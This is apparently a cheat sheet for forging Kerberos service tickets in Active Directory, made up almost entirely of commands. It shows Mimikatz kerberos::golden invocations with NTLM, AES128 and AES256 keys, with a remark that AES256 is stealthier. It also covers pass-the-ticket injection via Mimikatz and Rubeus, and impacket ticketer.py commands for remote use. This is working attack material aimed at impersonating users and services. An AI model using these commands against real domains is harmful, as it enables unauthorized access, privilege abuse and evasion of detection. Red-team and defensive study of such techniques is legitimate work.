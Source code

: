 ### Generate the RC4 hash from password
```
> mimikatz.exe
> kerberos::hash /password:MyPassword
```

### Mimikatz
```powershell
# To generate the TGS with NTLM
> kerberos::golden /domain:<domain_name> /sid:<domain_sid> /rc4:<ntlm_hash> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# To generate the TGS with AES 128 key
> kerberos::golden /domain:<domain_name> /sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# To generate the TGS with AES 256 key (more secure encryption, probably more stealth due is the used by default by Microsoft)
> kerberos::golden /domain:<domain_name> /sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname> 

# Inject TGS with Mimikatz
> kerberos::ptt <ticket_kirbi_file>
```

### Rubeus
```
> .\Rubeus.exe ptt /ticket:<ticket_kirbi_file>
```

### Remote
```bash
$ ticketer.py -nthash $NTLM -domain-sid $DOMAIN_SID -domain $DOMAIN <USER>

# To generate the TGS with NTLM
$ python ticketer.py -nthash <ntlm_hash> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>

# To generate the TGS with AES key
$ python ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>

# Set the ticket for impacket use
$ export KRB5CCNAME=<TGS_ccache_file>
```

